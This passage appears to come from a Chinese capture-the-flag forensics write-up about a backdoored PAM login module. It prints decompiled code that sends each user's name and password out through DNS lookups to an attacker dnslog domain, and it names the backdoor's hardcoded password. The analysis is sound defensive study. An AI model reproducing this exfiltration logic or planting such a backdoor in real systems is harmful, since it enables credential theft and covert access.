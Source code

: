 ```c
        if ( !v12 )
        {
            *v6 = v11;
            v8 = v11;
            p = 0LL;
            name = 0LL;
            pam_set_data(pamh, "unix_setcred_return", v6, setcred_free);
        }
    }
    else
    {
        v8 = 10;
        pam_syslog(pamh, 3LL, "bad username [%s]", name);
        *v6 = 10;
        pam_set_data(pamh, "unix_setcred_return", v6, setcred_free);
    }
    return v8;
}
```

可以看到这个部分 `unix_verify_password(pamh, name, p, v4);`说明`p`这个参数传输的就是密码

那么就可以确定后门密码

```flag
flag{XJ@123}
```

## 13

> 黑客的恶意dnslog服务器地址是什么？

:::warning

这里从流量中提取的结果是错误的，必须是后门文件中的原文

:::

在后门文件中有这么一部分

```c
v11 = unix_verify_password(pamh, name, p, v4);
get_dns_servers();
snprintf((char *)hostname, 0x64uLL, "%s.%s c0ee2ad2d8.ipv6.xxx.eu.org.", name, p);
```

即可得到答案

```flag
flag{c0ee2ad2d8.ipv6.xxx.eu.org.}
```
